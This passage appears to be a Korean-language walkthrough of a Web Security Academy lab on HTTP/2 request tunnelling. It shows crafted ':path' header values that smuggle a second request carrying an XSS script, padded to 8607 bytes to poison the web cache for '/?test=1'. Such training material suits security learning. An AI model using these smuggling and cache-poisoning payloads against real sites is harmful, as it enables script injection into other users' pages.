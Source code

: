 이때, </script\> 뒤에 임의의 문자를 채워넣어 **'/?test=1'** 응답 페이지의 Content-Length 보다 크도록 만들어 줍니다.
 - **'/?test=1'** 의 Content-Length: 8607

Header name
```
:path
```
Header value
```
/?test=1 HTTP/1.1\r\n
Host: ac9b1f6d1fcb908bc1369d4a00060033.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script> HTTP/1.1\r\n
foo:x
```


![xss with tunneling](19.png)


**Step 5) 실제 터널링 수행** 
아래와 같이 '</script\>' 뒤에 임의의 문자를 다수 입력하여 터널링 된 요청의 응답 패킷이 8607 bytes가 되도록 해줍니다.

응답 패킷이 도착하고 페이지에 사용자의 입력이 포함되고 Content-Type이 text/html 이므로 '<script\>alert(1)<script\>' 이 동작하게 됩니다.

해당 래퍼 페이지(/?test=1)에 대한 웹 캐시가 Poisioning 되어 해당 페이지 접속 시에 XSS 공격 스크립트가 동작하게 됩니다.

Header name
```
:path
```
Header value
```
/?test=2 HTTP/1.1
Host: ac9b1f6d1fcb908bc1369d4a00060033.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script>vvvvvvvvvvvvvvvvvv... HTTP/2\r\n
foo: x
```
